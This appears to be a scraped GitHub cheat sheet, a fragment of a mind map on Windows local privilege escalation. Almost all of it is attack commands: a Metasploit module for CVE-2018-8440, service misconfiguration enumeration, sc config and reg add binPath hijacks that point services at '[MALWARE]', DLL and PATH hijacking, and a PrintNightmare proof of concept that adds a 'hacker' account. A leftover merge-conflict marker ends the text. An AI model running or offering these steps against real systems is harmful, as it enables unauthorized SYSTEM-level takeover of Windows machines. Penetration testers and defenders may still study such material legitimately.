         *   CVE-2018-8440
            *   `icacls C:\Windows\Tasks` → `Authenticated Users: (RX,WD)`
            *   Metasploit                             → `use exploit/windows/local/alpc_taskscheduler` → Launch on MSF Session
    *   Services
        *   Enumeration
            *   Tools
                *   SharpUp  → `sharpup.exe audit`
                *   PowerUp → `Invoke-AllChecks`
                *   JAWS / Seatbelt / Invoke-PrivescCheck
            *   Manual
                *   `sc query` / `net start` / `Get-WMIObject Win32_Service`
                *   `cd HKLM:\system\currentcontrolset\services` → `dir`
                *   `wmic service get name,startmode,pathname | findstr /i /v “c:\windows\\”`
                *   `sc qc [SERVICE]`         → LocalSystem + Trigger Type
                *   `sc sdshow [SERVICE]` → `[RP/DC];;;[AU/BA/WD]`
                *   ACL Enumeration
                    *   `PS:> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "[USER] Users Path Everyone"`
            *   Triggers
                *   `MANUAL/DEMAND`   → `sc [stop/start] [SERVICE]`
                *   `AUTO`                     → SeShutdown + `shutdown /r /t 0`
        *   Exploitation
            *   `icacls` → (F/M/W) File/Folder Permissions → Overwrite Binary / [DLL Hijack](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)
            *   Unquoted Path                                                  → Malware in Folder
            *   BinPath Hijack
                *   `reg add HKLM\SYSTEM\CurrentControlSet\services\[SRV] /v ImagePath /t REG_EXPAND_SZ /d [MALWARE] /f`
                *   `sc config [SERVICE] binPath="[MALWARE/CMD]"`
                *   `sc config [SERVICE] depend=""`
                *   `sc config [SERVICE] obj=".\LocalSystem" password=""`
                *   Trigger Service
            *   PATH Hijacking
                *   Writable Folder       → `echo %PATH%`
                *   PowerUP                   → `FindPathDLLHijack`
                *   EXE/DLL In Folder   → Trigger Service
    *   Named Pipes
        *   `accesschk.exe /accepteula -w \\.\pipe\* -v` 
        *   Permissions → `GENERIC_WRITE / FILE_ALL_ACCESS`
        *   PrintNightmare
            *   `dir \\localhost\pipe\spoolss`
            *   `. .\CVE-2021-1675.ps1` → CalebStewart POC
            *   `Invoke-Nightmare -NewUser "hacker" -NewPassword "pass123" -DriverName "PrintMe"`
>>>>>>> 2bdcf5c (File Fixes)
